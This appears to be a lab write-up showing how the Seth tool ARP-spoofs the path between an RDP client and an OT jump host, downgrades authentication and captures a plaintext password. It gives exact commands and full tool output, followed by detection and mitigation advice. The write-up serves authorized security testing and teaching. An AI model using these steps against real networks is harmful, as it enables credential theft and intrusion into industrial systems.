



# Stealing Plaintext Jumphost Credentials Using Seth

## Watch the attack LIVESTREAM!

Watch the [LIVESTREAM](https://www.youtube.com/live/JVqw_jL7g28) where we attacked the Kit with Seth!

</img>

## Why This Matters

Jump hosts are a cornerscommon mode of OT remote access. The idea is that instead of allowing direct RDP connections from engineer laptops directly into OT devices, remote session must pass through a hardened intermediary system, the "jumphost."

But, of course, If the attacker cannot reach the OT system directly, the jump host becomes the target, and RDP has a lot of... issues.

In this attack, we will steal plain-text passwords to the OT jumphost, which would expose our OT network to **persistent** and **very hard to detect** attacker access.

```Seth``` is a tool designed to insert itself between the client and the RDP jumphost to steal credentials.

This was performed in an isolated lab environment for authorized security testing.

## Lab Architecture

| System             | IP Address       | Purpose                                              |
| ------------------ | ---------------- | ---------------------------------------------------- |
| Windows RDP client | `192.168.37.159` | System initiating the RDP connection                 |
| Kali Linux / Seth  | `192.168.37.134` | Man-in-the-middle and credential interception system |
| IT Default Gateway | `192.168.37.164` | Second part of the ARP Spoof MITM... (you'll see later)                             |
| OT Jumphost / Windows RDP server | `192.168.0.9` | Intended RDP destination                             |

The intended RDP path was:

```text
Windows Client (192.168.37.159) 
→ OT Firewall (192.168.37.164) 
→ OT Jumphost (192.168.0.9)
```

Seth was positioned to intercept this traffic from:

```text
Windows Client (192.168.37.159) 
→ Kali / Seth (192.168.37.134) [ARP Spoof Man-in-the-middle]
→ OT Firewall (192.168.37.164) 
→ OT Jumphost (192.168.0.9)
```

</img>

## Attack diagram

Here is a diagram of how the attack works. (thank you ChatGPT!)

Watch the livestream for a complete explanation. It'll make more sense...

</img>

## Prerequisites

- An RDP client and Kali attacker machine on the same subnet. (very important. Must be on the same subnet.)
- Both RDP client and Kali attack machine MUST be able to reach the RDP service of the OT Jumphost. (route, we'll add the firewall rules).
- A jumphost in the OT network with Remote Desktop sharing enabled.

I used Windows 11 free trials for both client and server machines.

## Running the Attack

### Step 0: Install Seth

Seth is not included in Kali by default. Clone it from GitHub and make the script executable.

```bash
git clone https://github.com/SySS-Research/Seth.git
cd Seth
```

Seth is a shell script with no compiled components, so no build step is needed. Verify it runs:

```bash
sudo ./seth.sh
```

You should see the Seth usage/help output. If you see a missing-dependency error, install the dependency it names (typically `python3-impacket` or `dsniff`) and try again.

```bash
sudo apt install python3-impacket dsniff -y
```

### Step 1: Start Seth

Navigate to the Seth directory on Kali and run Seth with the following arguments:

```bash
sudo ./seth.sh eth1 192.168.37.159 192.168.37.134 192.168.37.164
```

| Argument    | Value            | Purpose                                     |
| ----------- | ---------------- | ------------------------------------------- |
| Interface   | `eth1`           | Kali interface connected to the lab network |
| RDP client  | `192.168.37.159` | Windows system initiating the connection    |
| Seth system | `192.168.37.134` | Kali man-in-the-middle address              |
| RDP server  | `192.168.37.164` | Intended Windows RDP destination            |

> **Why `192.168.37.164` and not `192.168.0.9`?**
> ```Seth``` is a *Layer 2 ARP Spoof* attack. Meaning it puts itself in the middle of the MAC Address level communication, which doesn't go past the first route hop.
> The actual OT jumphost lives at `192.168.0.9`, but Seth's fourth argument is not the final destination, it is the next hop the victim's traffic must cross to get there.
> Since `192.168.37.164` is the IT-side gateway (the OT firewall), all traffic from the Windows client destined for the jumphost passes through it.
> Seth ARP-spoofs that gateway address so it can insert itself into the path before the traffic ever reaches the OT network.

Seth will begin listening and preparing to intercept the RDP session.

```bash
──(david㉿kali)-[~/Seth]
└─$ sudo ./seth.sh eth1 192.168.37.159 192.168.37.134 192.168.37.164
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...

```
### Step 2: Initiate an RDP Connection from the Windows Client

From the Windows RDP client (`192.168.37.159`), open an RDP connection to `192.168.0.9` as normal.

Seth intercepts the connection in transit.
Instead of completing a transparent proxy to the RDP server, Seth interferes with the RDP authentication negotiation.

When we attempt the RDP connection on the client, we see this ominous warning.

BUT, we've trained ourselves and our users to just click ```Yes```.

*You know it to be true.*

</img>

### Step 3: Observe the Credential Prompt

The Windows RDP client received an authentication prompt as part of the intercepted RDP negotiation.

The user entered their credentials into this prompt, believing they were authenticating to the intended RDP server.


### Step 4: Seth Captures the Credentials

Seth captured the username and password supplied by the RDP user in plaintext.

```bash
┌──(david㉿kali)-[~/Seth]
└─$ sudo ./seth.sh eth1 192.168.37.159 192.168.37.134 192.168.37.164
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 192.168.0.9
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 192.168.37.134:59051
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
oren::JPARDELLA:180e8dd040f0729a:d89980da5d3f19346d028c5178fe29d3:<REDACTED NTLM-CHALLENGE!>                                                                                                                                  
Tamper with NTLM response
Downgrading CredSSP
Connection closed
Connection received from 192.168.37.134:59052
Warning: RC4 not available on client, attack might not work
Listening for new connection
Server enforces NLA; switching to 'fake server' mode
Enable SSL
Connection lost on enableSSL: [Errno 104] Connection reset by peer
Connection lost on run_fake_server
Connection received from 192.168.37.134:59059
Warning: RC4 not available on client, attack might not work
Listening for new connection
Enable SSL
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
JPARDELLA\oren:PlainTextPassword!
[*] Cleaning up...
[*] Done
```

***WHAT??*** A Clear Text Password!

Now you can use that to login and access the OT network any time you would like...

And it will look totaly legitimate. You have the password, after all.

### Step 5: Observe the Failed RDP Session

The RDP connection did not continue into a normal interactive desktop session after the credentials were captured.

Seth's primary objective was credential interception rather than transparently proxying a complete RDP session.

Blame the network admin, and move on! (lol)

## What We Observed

Seth successfully captured the username and password entered by the RDP user.

The RDP connection terminated without completing a full interactive desktop session.

RDP commonly uses CredSSP and Network Level Authentication to securely delegate credentials to the remote server before a full desktop session is established.
Seth interfered with this authentication process and caused the client to interact with an attacker-controlled authentication prompt rather than authenticating directly to the RDP server.

## Important Limitation

This attack required the Kali system to be in a position where it could intercept or redirect traffic between the RDP client and RDP server.

Seth did not send an unsolicited credential prompt to the Windows client from outside the network path.

**The practical attack path therefore depends on an attacker first obtaining a man-in-the-middle position**, for example through ARP spoofing or another traffic-redirection mechanism.

This is an important distinction when assessing risk.
An attacker who has no foothold on the local network segment cannot execute this attack without first establishing that position.

## Detection Opportunities

Defenders may find evidence of this attack in the following places.
These are potential detection opportunities based on how the attack works — they were not all directly confirmed during this lab test.

- Unexpected ARP table changes or duplicate-IP behavior on the network (We talked about this alot!)
- RDP connections that fail immediately after credential entry
- RDP traffic originating from an unauthorized endpoint
- Authentication failures or unusual RDP negotiation sequences
- Network traffic showing a device unexpectedly positioned between the client and server
- Endpoint or network alerts associated with ARP spoofing activity
- RDP connections arriving from an unexpected MAC address for the server's IP

But to be honest, all of these (except ARP spoofing) sound really noisy in a production environment.


## Security Takeaway

Your best bet is to :

1. lock your firewall rules down. If Kali doesn't have RDP access to the jumphost, the attack fails.
2. Avoid using RDP jumphosts as your primary line of defense. Instead, use Remote Desktop Gateways, or (better) a commercial purpose-built OT remote access tool!

If using RDP, the strongest practical mitigation is to restrict which systems are permitted to initiate RDP connections to protected servers.

## What We Learned

- Seth can intercept RDP credentials if it can position itself between the client and server.
- The attack depends on first achieving a man-in-the-middle position — it does not work from an arbitrary network location.
- RDP credential interception does not require a complete transparent proxy. The session can fail after the credentials are captured.
- Blocking direct RDP access from endpoints to OT servers — even when a jump host is required by policy — reduces the practical attack surface.
- Detection should look for the conditions that enable this attack (ARP anomalies, unauthorized RDP sources) as well as the RDP session failures that may follow it.

## References

- [Seth on GitHub](https://github.com/SySS-Research/Seth)
- [CredSSP and Network Level Authentication](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-allow-access)
- [Hacking OT Networks: A Practical Guide To Pentesting Industrial Networks
](https://a.co/d/0etO4KzE), by Christopher Nourrie
- [Industrial Control System Security, Volume 1](https://www.amazon.com/Industrial-Cybersecurity-Efficiently-critical-infrastructure-ebook/dp/B0761XRTP9?ref_=ast_author_dp&th=1&psc=1), by Pascal Ackerman
- [Cisco Converged Plantwide Ethernet - Industrial Demilitarized Zone](https://literature.rockwellautomation.com/idc/groups/literature/documents/td/enet-td009_-en-p.pdf), by Cisco and Rockwell Automation
